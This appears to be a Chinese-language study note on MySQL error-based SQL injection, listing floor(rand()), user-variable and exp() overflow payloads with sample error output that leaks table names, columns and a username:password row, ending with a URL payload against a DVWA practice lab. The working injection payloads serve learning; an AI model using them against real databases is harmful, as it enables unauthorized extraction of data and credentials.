- `select count(*) from (select 1 union select null union select !1) t group by concat(version(),floor(rand(0)*2));`
    
    ERROR 1062 (23000): Duplicate entry '5.6.171' for key 'group_key'
    
    假如关键表被禁用，可以使用这种方式。<br>
    这里`select 1 union select null union select !1`会得出1,NULL,0。<br>
    还是在分组的时候会出mysql报错，而且必须是concat连接floor的随机整数才会分组失败，正常的‘1’字符串concat连接后是分组正常的。

- `select min(@a:=1) from information_schema.tables group by concat(table_name,@a:=(@a+1)%2)`
    
    如果rand()被禁用，可以使用用户变量来报错。
    放弃研究注意：select min(@a:=1) from information_schema.tables group by concat(table_name,@a:=(@a+1)%2)，这里是得到一个表名，证明存在漏洞即可。

- `select exp(~(select * FROM(SELECT USER())a));`
    
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'
    
    // y = Exp(x)是以e为底的指数函数，即y=e的x次方。<br>
    其中 exp(-2) = 0.13533528323661，exp(0) = 1，exp(1) = 2.718281828459045。版本在5.5.5及以上。
    
    这里是double数值类型超出范围，user() = root@localhost，~(root@localhost) = 18446744073709551615，exp(数值>709)会报错。
    
    **使用exp进行SQL报错注入参考文章**：<https://www.cnblogs.com/lcamry/articles/5509124.html>
    
    * 0x01 概述
    
        \~是按位取反，~0=18446744073709551615，是最大的无符号BIGINT值。
        
    * 0x02 注入
        
        通过构造子查询并取反，造成一个DOUBLE overflow error，并借由此注出数据。
    
    * 0x03 注出数据——得到表名
    
        `select exp(~(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x));`
    
        ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'emails' from dual)))'

    * 0x03 注出数据——得到列名
        
        `select exp(~(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x));`
        
        ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'user_id' from dual)))
        
        放弃研究注意：这里只是得出单条数据，单条记录，个人讨论后无法从limit下手的，报错机制并没有给出预期结果，请从下面的@遍历爆出吧！
    
    * 0x03 注出数据——检索数据
    
        `select exp(~ (select*from(select concat_ws(':',id, username, password) from users limit 0,1)x));`
        
        ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '1:Dumb:Dumb' from dual)))'
        
    * 0x04 一蹴而就
    
        这个查询可以从当前上下文中dump出所有的tables和columns。
        
        ```sql
        # 例如url:
        http://localhost/dvwa/vulnerabilities/sqli/?id=1' or exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))-- -&Submit=Submit#
        